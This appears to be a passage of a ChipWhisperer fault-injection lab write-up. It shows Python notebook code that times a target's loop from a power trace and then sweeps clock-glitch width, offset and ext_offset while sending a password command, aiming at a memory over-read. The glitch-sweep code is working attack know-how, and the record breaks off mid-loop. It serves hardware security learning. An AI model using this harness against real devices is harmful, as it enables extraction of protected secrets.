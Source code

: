 ```
trace = scope.get_last_trace()

%matplotlib inline
import matplotlib.pyplot as plt
plt.figure()
plt.plot(trace)
plt.show
```

This graph indicates it is probably looping through something (hopefully printing out characters so we can do a memory over-read)

you can also get the time between `trigger_high()` and `trigger_low` to get an approximation of the length of each loop.
```python
print(scope.adc.trig_count)
```
This is 9641.
- using the `offset_ext` parameter, we can control where in the loop we put the glitch
- We want to put the glitch towards the end of the loop
The range we use
```python
glitch_spots = [i for i in range(9341, 9641, 1)]
```
about 300 potential glitching a spots


`glitching code`
```python
from importlib import reload
import chipwhisperer.common.results.glitch as glitch
from tqdm.notebook import tqdm
import re
import struct

# replace with good glitch settings you've found
gc.set_range("width", 4, 8)
gc.set_range("offset", -8, 4)

step = 2
gc.set_global_step(step)
scope.glitch.repeat = 4

    
for glitch_setting in gc.glitch_values():
    scope.glitch.offset = glitch_setting[1]
    scope.glitch.width = glitch_setting[0]
    for i in tqdm(glitch_spots, leave=False):
        scope.glitch.ext_offset = i
        if scope.adc.state:
            #print("Timeout, trigger still high!")
            gc.add("reset", (scope.glitch.width, scope.glitch.offset, scope.glitch.ext_offset))
            plt.plot(scope.glitch.width, scope.glitch.ext_offset, 'xr', alpha=1)
            fig.canvas.draw()

            #Device is slow to boot?
            reboot_flush()
        
        target.flush()
        scope.arm()
        target.write("p516261276720736265747267206762206f686c207a76797821\n")
        ret = scope.capture()
        if ret:
            #print('Timeout - no trigger')
            gc.add("reset", (scope.glitch.width, scope.glitch.offset, scope.glitch.ext_offset))
            plt.plot(scope.glitch.width, scope.glitch.ext_offset, 'xr', alpha=1)
```